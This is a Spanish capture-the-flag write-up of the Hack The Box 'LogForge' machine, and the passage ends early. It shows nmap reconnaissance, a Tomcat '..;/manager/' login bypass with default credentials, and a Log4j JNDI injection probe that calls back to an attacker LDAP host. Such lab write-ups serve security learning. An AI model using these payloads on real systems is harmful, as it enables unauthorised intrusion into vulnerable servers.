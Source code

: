 ```yaml
---
layout: post
title:  "Maquina Retirada LogForge de Hack The Box (Necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada LOGFORGE que presenta la famosa Vuln Log4j
tags: HTB, Log4j, Tomcat, LDAP Injection, Ysoserial, RCE, JNDI, Web Hacking, Maquinas Retiradas, Writeup
---
```


# LogForge Log4j - Hack The Box

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.11.138       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
$" nmap -sC -sV -p -oN target 10.10.11.138
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Ultimate Hacking Championship
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Lanzamos la herramienta Whatweb
```bash
http://10.10.11.138 [200 OK] Apache[2.4.41], Cookies[JSESSIONID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], HttpOnly[JSESSIONID], IP[10.10.11.138], Java, Title[Ultimate Hacking Championship]
```
Hechamos un vistazo a web.

Encontramos un Tomcat Corriendo.. 
```bash
Hacemos uso de la vulnerabilidad presente en Tomcat añadiendo este parametro en la Url para saltarnos el login ../..;/manager/

http://10.10.11.138/pepe/..;/manager/html  → password por Default              tomcat:tomcat
```
# Log4j Injection - Tomcat ..;/manager/

```bash
en el campo Applicattion /  → procedemos a hacer la comprobacion ${jndi:ldap://10.10.16.7/LoqueSeaaa} y procedemos a ponernos a la escucha con nc
```
Primer Payload De Comprobacion
